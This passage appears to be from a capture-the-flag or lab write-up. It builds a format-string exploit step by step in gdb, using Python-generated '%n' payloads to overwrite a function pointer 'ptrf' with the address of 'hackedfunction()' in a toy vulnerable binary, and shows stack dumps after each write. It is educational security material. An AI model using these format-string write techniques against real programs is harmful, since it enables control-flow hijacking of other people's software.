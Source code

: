 ```
0xffffd690:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) 
```

We now need to overwrite the value of `ptrf` with the address of `hackedfunction()`, which is `0x8048706`
We currently have 18 bytes written, when we need 06.
```
(gdb) p 0x106 - 0x18
$1 = 238
```

```
(gdb) run $(python -c 'print "A" * 8 + "\x6c\xd6\xff\xff" + "\x6d\xd6\xff\xff" + "\x6e\xd6\xff\xff" + "\x6f\xd6\xff\xff" + "%238x%8$n" + "%9$n" + "%10$n" + "%11$n"')
[snip]
Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/20xw $esp
0xffffd650:	0xffffd670	0x00000080	0xffffd8e3	0x08048238
0xffffd660:	0xffffd6c8	0xf7ffda94	0x00000000	0x06060606[1]
0xffffd670:	0x41000001	0x41414141	0xffffd66c	0xffffd66d
0xffffd680:	0xffffd66e	0xffffd66f	0x20202020	0x20202020
0xffffd690:	0x20202020	0x20202020	0x20202020	0x20202020
(gdb) 
```
We have our first value. You can also see the effect that `%238x` has on our buffer with the rows of 0x20, the ascii value of space, in our buffer.

Now to repeat the process until the entire address is written.
```
(gdb) p 0x87 - 0x06
$6 = 129
```

```
(gdb) run $(python -c 'print "A" * 8 + "\x6c\xd6\xff\xff" + "\x6d\xd6\xff\xff" + "\x6e\xd6\xff\xff" + "\x6f\xd6\xff\xff" + "%238x%8$n" + "%129x%9$n" + "%10$n" + "%11$n"')
Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/20xw $esp
0xffffd640:	0xffffd660	0x00000080	0xffffd8de	0x08048238
0xffffd650:	0xffffd6b8	0xf7ffda94	0x00000000	0x080486e0
0xffffd660:	0x41414141	0x41414141	0xffffd66c	0x87878706
0xffffd670:	0xff000001	0xffffd66f	0x20202020	0x20202020
0xffffd680:	0x20202020	0x20202020	0x20202020	0x20202020
(gdb)  
```
The stack value once again get modified as the length of our buffer increases.
```
(gdb) p 0x104 - 0x87
$8 = 125
```
```
(gdb) run $(python -c 'print "A" * 8 + "\x5c\xd6\xff\xff" + "\x5d\xd6\xff\xff" + "\x5e\xd6\xff\xff" + "\x5f\xd6\xff\xff" + "%238x%8$n" + "%129x%9$n" + "%125x%10$n" + "%11$n"')
Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/20xw $esp
0xffffd640:	0xffffd660	0x00000080	0xffffd8d9	0x08048238
0xffffd650:	0xffffd6b8	0xf7ffda94	0x00000000	0x04048706
0xffffd660:	0x41000002	0x41414141	0xffffd65c	0xffffd65d
0xffffd670:	0xffffd65e	0xffffd65f	0x20202020	0x20202020
0xffffd680:	0x20202020	0x20202020	0x20202020	0x20202020
(gdb) 
```
